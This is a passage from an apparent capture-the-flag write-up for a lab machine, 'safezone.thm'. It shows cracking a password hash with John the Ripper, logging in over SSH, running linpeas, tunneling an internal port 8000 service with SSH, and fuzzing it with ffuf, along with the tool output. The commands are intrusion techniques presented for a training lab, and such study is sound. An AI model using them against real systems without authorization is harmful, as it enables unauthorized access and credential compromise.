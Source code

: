 ```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
magic            (?)
```

We got the credentials, let's switch to ssh:


![](cybersecurity/images/Pasted%2520image%252020250519211619.png)

Let's use linpeas:

![](cybersecurity/images/Pasted%2520image%252020250519211933.png)

Something is running on port `8000`, most likely a website, let's use port tunneling to check the contents:

```
ssh -L 9000:localhost:8000 files@safezone.thm -fN
```

![](cybersecurity/images/Pasted%2520image%252020250519212024.png)

It says forbidden but we can still fuzz, let's do it:

```
ffuf -w /usr/share/dirb/wordlists/common.txt:FUZZ -u "http://localhost:9000/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:9000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Extensions       : .php .html .txt .git
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.html                   [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 531ms]
.hta                    [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 546ms]
.hta.git                [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 547ms]
.hta.txt                [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 547ms]
.hta.html               [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 547ms]
.htpasswd.txt           [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 546ms]
.htaccess               [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 546ms]
.htpasswd.html          [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 547ms]
.htpasswd               [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 694ms]
.htaccess.git           [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 694ms]
.htaccess.txt           [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 694ms]
.htpasswd.git           [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 704ms]
.htaccess.html          [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 874ms]
cgi-bin/.html           [Status: 403, Size: 178, Words: 5, Lines: 8, Duration: 175ms]
login.html              [Status: 200, Size: 462, Words: 21, Lines: 19, Duration: 176ms]
```
